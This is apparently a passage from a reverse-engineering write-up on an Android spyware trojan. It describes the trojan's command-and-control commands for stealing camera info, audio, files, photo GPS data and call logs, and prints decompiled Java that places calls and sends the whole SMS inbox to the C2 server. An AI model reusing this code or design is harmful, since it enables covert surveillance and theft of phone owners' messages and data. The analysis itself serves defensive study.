 ### Scxreexcv4
Sends information about all the cameras present in the device to the C2.

### micmokmi8x
Captures audio, stores it in a temporary file named `sound.mp3` and sends it to the C2.

### DTXXTEGE3
Deletes a file from the sdcard according to the filename sent by the C2.

### Yufsssp
It opens a file from `/sdcard` based on the supplied filename by the C2. It then checks whether the exif data contains latitude and longitude information. If present, it sends the coordinates back to the C2.

### getsssspo
It opens a file from `/sdcard` based on the supplied filename by the C2. It then reads it and sends the read data to the C2.

### DXCXIXM
Creates a list of all non-hidden files present at `/sdcard/DCIM` and sends them to the C2.

### f5iledowqqww
It checks whether a file is present in `/sdcard/` based on the filename provided by the C2. It then reads the file and sends the data back to the C2.

### GExCaalsss7
<img src='https://raw.githubusercontent.com/0xSh4dy/0xSh4dy.github.io/master/assets/img/rev/ttsp/ttsp-08.png'>

Reads call logs and sends the name, number, duration and call type to the C2.

### SDgex8se
Retrieves a list of files in the directory `/sdcard/<dirname>` based on the provided directory name received from the C2, and sends the name and type (file or directory) to the server.

### PHOCAs7
```java
String mspvon = MainService.this.command.substring(MainService.this.command.indexOf("PHOCAs7") + 7, MainService.this.command.indexOf("kot79"));
Intent callInteln = new Intent("android.intent.action.CALL");
callInteln.setData(Uri.parse("tel:" + mspvon));
MainService.this.startActivity(callInteln);
```
Initiates a phone call to the number supplied by the C2.

### Gxextsxms
```java
if (MainService.this.command.contains("Gxextsxms")) {
    try {
        Uri uriSMSURI = Uri.parse("content://sms/inbox");
        Cursor cur2 = MainService.this.getContentResolver().query(uriSMSURI, null, null, null, null);
        String tyiu = "";
        while (cur2.moveToNext()) {
            String address = cur2.getString(cur2.getColumnIndex("address"));
            String body = cur2.getString(cur2.getColumnIndexOrThrow("body"));
            tyiu = tyiu + address + ")@(" + body + "|";
        }
        cur2.close();
        MainService.socketOutputStream.writeBytes(tyiu + "YORRS4uyuy");
        MainService.socketOutputStream.flush();
        MainService.this.command = "";
```